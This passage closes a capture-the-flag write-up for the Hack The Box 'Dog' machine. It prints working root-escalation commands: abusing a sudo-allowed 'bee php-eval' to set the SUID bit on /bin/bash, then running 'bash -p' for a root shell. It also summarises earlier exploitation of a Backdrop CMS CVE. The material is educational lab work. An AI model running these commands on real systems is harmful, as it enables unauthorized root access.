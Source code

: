     Bingo! We have executed `whoami` as `root`.

    ![Terminal screenshot showing sudo bee php-eval to execute whoami as root](/cv-juan/images/dog-htb/privesc-bee-whoami.png "Sudo Bee PHP Eval")
    *Caption: Using `sudo bee` to execute `whoami` as the root user.*

    To get a persistent root shell, we can use `bee` to set the SUID bit on `/bin/bash`. The SUID bit allows an executable to run with the permissions of the file owner (in this case, `root`), instead of the user executing it.

    ```bash
    johncusack@dog:~$ sudo /usr/local/bin/bee --root=/var/www/html php-eval 'system("chmod u+s /bin/bash")'
    johncusack@dog:~$ ls -l /bin/bash
    -rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash
    ```

    The `s` in the permissions (`-rwsr-xr-x`) confirms that the SUID bit is set.

    Now, we simply execute `bash -p` (where `-p` tells `bash` to use the effective permissions of the file, i.e., `root`).

    ```bash
    johncusack@dog:~$ bash -p
    bash-5.0# whoami
    root
    ```

    ![Terminal screenshot showing bash -p to become root](/cv-juan/images/dog-htb/root-shell.png "Root Shell")
    *Caption: Obtaining a root shell using `bash -p` after setting the SUID bit.*

    We are root!

    ---

    ## Conclusion

    The "Dog" machine was an excellent CTF that covered a variety of attack vectors:

    1.  **Exposed Sensitive Information:** Git repository enumeration to find credentials.
    2.  **Web Application Vulnerability:** RCE exploitation in Backdrop CMS (CVE-2022-42092) via file upload.
    3.  **Shell Management:** Obtaining and maintaining a reverse shell despite file deletion.
    4.  **Privilege Escalation:** Using reused credentials and a misconfigured `sudo` permission for `bee` to gain `root` access.

    This machine highlights the importance of code hygiene, configuration management (especially `sudo` permissions), and web application vulnerability monitoring.

    ---
    **Disclaimer:** This write-up is provided for educational and cybersecurity awareness purposes only. Any attempts to replicate these techniques on unauthorized systems are illegal and unethical. Perform penetration testing only in controlled environments and with proper permission.
    ---
